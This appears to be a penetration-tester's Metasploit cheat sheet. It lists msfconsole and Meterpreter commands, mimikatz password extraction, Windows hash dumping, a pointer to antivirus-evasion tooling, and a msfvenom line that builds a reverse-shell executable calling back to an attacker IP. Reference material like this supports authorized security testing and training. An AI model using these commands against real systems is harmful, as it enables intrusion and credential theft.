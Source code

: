 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
makerc //writes all commands you've run since starting msfconsole to a file
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```

* Load [mimikatz](https://www.offensive-security.com/metasploit-unleashed/mimikatz/) (needs SYSTEM privs; better migrate to 64bit process): `load mimikatz`, then use `msv`, `kerberos`, `wdigest` for extracting passwords.
* Post-exploitation module: `run winenum` script.
* Windows hashes: `run post/windows/gather/smart_hashdump`
* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

* [How to use msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
